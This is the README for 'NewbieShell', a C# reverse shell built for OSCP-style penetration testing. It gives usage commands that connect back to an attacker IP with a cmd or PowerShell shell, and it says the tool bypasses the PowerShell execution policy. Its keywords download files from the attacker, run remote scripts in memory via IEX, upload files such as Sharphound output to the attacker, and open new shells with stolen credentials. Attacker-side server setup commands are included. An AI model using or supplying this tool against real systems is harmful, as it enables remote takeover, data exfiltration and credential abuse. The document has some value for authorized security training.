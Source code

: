 # NewbieShell
## Reverse shell for beginners

When preparing for the OSCP certificate, I mostly used Netcat and a msfvenom payload for a connection. The most annoying thing for me was that when downloading and uploading software, it required a very long text. Since I like to program in C#, I thought I would just simplify this for myself. Through this idea the NewbieShell was born. The goal was to execute code with short keywords, like download. This saves the attacker time and nerves. 
Furthermore, as the name "NewbieShell" suggests, this software is also intended for beginners. 

## Usage

There are two ways to use NewbieShell. The simple method in the Console.

```
NewbieShell.exe
```

In this method the program asks for an IP address, port and whether to use cmd.exe or powershell.exe as return.

The second option is to use NewbieShell like Netcat.

```
Newbieshell.exe <ip> <port> <cmd.exe or powershell.exe>
```

Example: NewbieShell.exe 192.168.0.1 80 cmd.exe

If Powershell.exe is executed, then NewbieShell executes the command "-ep bypass" in the background. This sets the ExecutionPolicy to bypass.

### NewbieShell Console
All Windows commands can be inserted normally. For example, if you want to download something from a web server, then you have the possibility to execute a download with so-called keywords. The keyword for download is #D

After entering the keyword, a query comes from the system about which file it is and so on. Further information can be found below in the documentation.

#### Temp Folder

The first time NewbieShell connects, a folder is set up under the path C:\temp. This folder is where all data is stored/downloaded

#### Download - Keyword #D

As already described above, the keyword #D is the download function. NewbieShell specifies that a web server should be running on the attacker's side. The "http.server" based on Python3, is available by default on Kali Linux. With this command a web server can be executed on the attacker machine.

```
python3 -m http.server 80
```

In the next step, the software will ask for the file that should be downloaded.
Because NewbieShell knows the IP address of the attacker. The query for the attacker IP address is omitted.

If the file has been downloaded, it can be found in the C:\temp directory.

#### IEX - Keyword #IEX

The IEX command is often used to execute malware. For example, a .ps1 file is executed without saving the file to the hard disk.
As with the download function, a web server is required. This should be executed on the attacker's computer. 

#### Upload - Keyword #U

I often had the case that I wanted to upload files such as Sharphound files to my attacker PC. I did not always want to use an SMB share. I have thought about whether this is easier. Unfortunately, the upload - function does not work with the standard Python3 "http.server", because this web server does not accept post - function. But there is another webserver which can do this. This can be easily installed with this command on the attacker side.

```
pip3 install uploadserver
```

After the web server or upload server is installed, then it can be run on the attacker machine.

```
python3 - m uploadserver 80
```

For info NewbieShell accurately indicates that the upload server should be installed and running.

NewbieShell requests the full path of the file. After a successful upload, the file should be discoverable on the attacker's site.

#### Impersonation - Keyword #I

If you have found any credentials during the attack, you have the possibility to generate a new shell with these credentials using NewbieShell.
The system will ask for the username, password and domain. If there is no domain, this line can be left blank. 

## Future

My goal would be to generate as many keywords as possible.
